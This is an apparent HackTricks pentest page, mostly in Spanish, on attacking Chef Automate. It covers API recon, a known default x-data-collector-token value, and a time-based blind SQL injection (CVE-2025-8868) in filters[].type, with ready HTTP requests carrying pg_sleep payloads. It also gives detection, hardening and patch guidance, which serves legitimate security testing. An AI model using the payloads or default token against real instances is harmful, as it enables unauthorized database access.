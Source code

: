 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

Esta página recopila técnicas prácticas para enumerar y atacar instancias de Chef Automate, con énfasis en:
- Discovering gRPC-Gateway-backed REST endpoints and inferring request schemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Nota: Las respuestas del backend que incluyen el header grpc-metadata-content-type: application/grpc típicamente indican un puente gRPC-Gateway que conecta llamadas REST con servicios gRPC.

## Recon: Arquitectura y huellas

- Front-end: A menudo Angular. Los bundles estáticos pueden dar pistas sobre rutas REST (p. ej., /api/v0/...)
- API transport: REST a gRPC vía gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Cuerpos de error que empiezan con pq: sugieren fuertemente PostgreSQL con el driver Go pq
- Endpoints de Compliance interesantes (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate expone un data collector que autentica peticiones mediante un header dedicado:

- Header: x-data-collector-token
- Riesgo: Algunos entornos pueden conservar un token por defecto que concede acceso a rutas API protegidas. Default conocido observado en el wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Si está presente, este token puede usarse para llamar endpoints de la Compliance API que de otro modo requieren auth. Siempre intentar rotar/desactivar defaults durante el hardening.

## API Schema Inference via Error-Driven Discovery

Los endpoints respaldados por gRPC-Gateway a menudo leak errores de validación útiles que describen el modelo de request esperado.

Para /api/v0/compliance/profiles/search, el backend espera un body con un array filters, donde cada elemento es un objeto con:

- type: string (identificador del campo del filtro)
- values: array de strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
JSON malformado o tipos de campo incorrectos típicamente disparan 4xx/5xx con pistas, y las cabeceras indican el comportamiento del gRPC-Gateway. Úsalos para mapear campos y localizar injection surfaces.

## API de Compliance - SQL Injection (CVE-2025-8868)

- Endpoint afectado: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Clase de vulnerabilidad: time-based blind SQL injection in PostgreSQL
- Causa raíz: Falta de proper parameterization/whitelisting al interpolar el campo type en un fragmento SQL dinámico (probablemente usado para construir identifiers/WHERE clauses). Los crafted values en type son evaluados por PostgreSQL.

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Notas de la técnica:
- Cierra la cadena original con una comilla simple
- Concatena una subconsulta que llama a pg_sleep(N)
- Vuelve a entrar en el contexto de cadena mediante || para que el SQL final siga siendo sintácticamente válido independientemente de dónde se inserte type

### Prueba mediante latencia diferencial

Envía solicitudes emparejadas y compara los tiempos de respuesta para validar la ejecución del lado del servidor:

- N = 1 segundo
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 segundos
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Response times scale with pg_sleep(N)
- HTTP 500 responses may include pq: details during probing, confirming SQL execution paths

> Consejo: Use un validador de tiempos (p. ej., múltiples intentos con comparación estadística) para reducir ruido y falsos positivos.

### Impacto

Usuarios autenticados —o actores no autenticados que abusen de un x-data-collector-token por defecto— pueden ejecutar SQL arbitrario dentro del contexto PostgreSQL de Chef Automate, poniendo en riesgo la confidencialidad e integridad de los perfiles de compliance, la configuración y la telemetría.

### Versiones afectadas / Solución

- CVE: CVE-2025-8868
- Guía de actualización: Chef Automate 4.13.295 o posterior (Linux x86) según los avisos del proveedor

## Detección y Forense

- Capa API:
- Monitorizar respuestas 500 en /api/v0/compliance/profiles/search donde filters[].type contiene comillas ('), concatenación (||), o referencias a funciones como pg_sleep
- Inspeccionar cabeceras de respuesta en busca de grpc-metadata-content-type para identificar flujos gRPC-Gateway
- Capa de base de datos (PostgreSQL):
- Auditar llamadas a pg_sleep y errores de identificador malformado (a menudo aparecen con prefijos pq: provenientes del driver pq de Go)
- Autenticación:
- Registrar y alertar sobre el uso de x-data-collector-token, especialmente valores por defecto conocidos, en las rutas API

## Mitigaciones y Endurecimiento

- Inmediatas:
- Rotar/deshabilitar tokens de data collector por defecto
- Restringir el ingreso a los endpoints de data collector; aplicar tokens fuertes y únicos
- A nivel de código:
- Parametrizar consultas; nunca concatenar fragmentos SQL como cadenas
- Restringir estrictamente con lista blanca los valores permitidos de type en el servidor (enum)
- Evitar ensamblar SQL dinámico para identificadores/cláusulas; si se requiere comportamiento dinámico, usar comillas seguras para identificadores y listas blancas explícitas

## Lista de verificación práctica para pruebas

- Comprobar si x-data-collector-token es aceptado y si el valor por defecto conocido funciona
- Mapear el esquema de solicitud de la Compliance API induciendo errores de validación y leyendo mensajes de error/cabeceras
- Probar SQLi en campos menos obvios "tipo-identificador" (p. ej., filters[].type), no solo en arrays de valores o campos de texto de primer nivel
- Usar técnicas basadas en tiempo con concatenación para mantener SQL sintácticamente válido en distintos contextos

## Referencias

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}

